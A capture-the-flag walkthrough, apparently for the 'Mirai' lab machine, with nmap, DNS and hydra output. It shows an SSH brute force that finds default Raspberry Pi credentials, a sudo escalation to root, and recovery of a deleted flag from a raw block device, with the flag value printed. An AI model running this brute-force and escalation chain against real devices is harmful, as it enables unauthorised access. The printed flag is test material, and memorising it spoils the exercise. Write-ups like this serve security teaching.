






# Mirai

## Machine Info



## Recon

- nmap

```console
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
1203/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (96%), Linux 3.2 - 4.9 (96%), Linux 4.8 (96%), Linux 4.9 (95%), Linux 3.16 (95%), Linux 3.12 (95%), Linux 3.18 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- domain recon -> `pi.hole`



```console
$ dig any @10.10.10.48 pi.hole

; <<>> DiG 9.18.16-1-Debian <<>> any @10.10.10.48 pi.hole
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13347
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;pi.hole.                       IN      ANY

;; ANSWER SECTION:
pi.hole.                300     IN      A       192.168.204.129

;; Query time: 389 msec
;; SERVER: 10.10.10.48#53(10.10.10.48) (TCP)
;; WHEN: Fri Dec 29 08:17:32 CST 2023
;; MSG SIZE  rcvd: 52

dig axfr @10.10.10.48 pi.hole -> no zone transfer
```

- web: Pi-hole v3.1.4

## Foothold

### Brute force Pi-Hole [x]





### Brute force ssh

- hydra -> `pi:raspberry`

```console
$ hydra -l pi -P /usr/share/wordlists/metasploit/unix_passwords.txt -I -t 12 ssh://10.10.10.48
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-29 08:35:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 12 tasks per 1 server, overall 12 tasks, 1009 login tries (l:1/p:1009), ~85 tries per task
[DATA] attacking ssh://10.10.10.48:22/
[STATUS] 86.00 tries/min, 86 tries in 00:01h, 923 to do in 00:11h, 12 active
[STATUS] 84.00 tries/min, 252 tries in 00:03h, 757 to do in 00:10h, 12 active
[STATUS] 78.86 tries/min, 552 tries in 00:07h, 457 to do in 00:06h, 12 active
[STATUS] 76.00 tries/min, 912 tries in 00:12h, 97 to do in 00:02h, 12 active
[STATUS] 75.23 tries/min, 978 tries in 00:13h, 31 to do in 00:01h, 12 active
[22][ssh] host: 10.10.10.48   login: pi   password: raspberry
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-29 08:49:28
```

## Privilege Escalation

- pi is already a super user

```console
pi@raspberrypi:~/Desktop/Plex$ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop/Plex$ sudo su root
root@raspberrypi:/home/pi/Desktop/Plex#
```

- find root.txt -> `df`, `mount`

```console
root@raspberrypi:/home/pi/Desktop/Plex# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...

root@raspberrypi:/home/pi/Desktop/Plex# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M   13M   88M  13% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M   76K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M  4.0K   50M   1% /run/user/1000

root@raspberrypi:/media/usbstick# ls -al
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found

root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

- for **block** device, use **strings** or **grep** to cat content of deleted root.txt

- `strings`

```console
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

- `xxd /dev/sdb | grep -v '0000 0000 0000 0000 0000 0000 0000 0000'`



- `grep -B2 -A2 -a '[a-z0-9]\{32\}' /dev/sdb`



## Exploit Chain

port recon -> dns recon -> brute force ssh -> pi shell -> sudo -l -> root shell -> find block device -> strings or grep to catch root.txt

